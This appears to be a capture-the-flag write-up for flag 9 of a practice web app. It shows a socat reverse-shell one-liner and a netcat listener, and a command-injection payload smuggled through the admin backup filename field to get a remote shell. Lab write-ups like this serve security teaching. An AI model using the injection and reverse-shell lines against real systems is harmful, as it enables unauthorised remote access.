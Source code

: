 Search the internet for an example for reverse shells... and find one which does not need some of the "forbitten" characters
```
            if any([c in filename for c in '/\\%{}']):
                flash("Illegal characters in filename")    
```
I've searched the internet and found this litte [github page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)  
maybeee.. this will work - this will call <endpoint> on port 4444
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<endpoint>:4444
```

`socat` is a [multipurpose relay tool for linux](https://www.redhat.com/sysadmin/getting-started-socat) and its often installed by default.  

On the attackers machine I start a netcat listener on port 4444 which is reachable over the internet.

```
attacker # nc -v -l -p 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```
Ready to go. Now open the /admin endpoint on the Docker container again and search for the `Site Backup function`  
There is a text field where you can enter the filename.  
Now lets combine our reverse shell with something to end the `filename` with `.tar`  
Lets enter the following string and press `Submit` ($() to execute the command)
```
$(socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<my_ip>:4444);echo .tar
```

And going back to the listening `netcat` we have a shell!!  
![flag9](images/flag9_1.png)

Now we just have to `cd /root` and get the `flag.txt`.  
But wait... there is no flag.txt?  
Okay - here is the description a bit wrong... its _NOT_ `/root/flag.txt` its `/flag.txt`.  
So `cat /flag.txt` and we got Number 9!
![flag9](images/flag9_2.png)
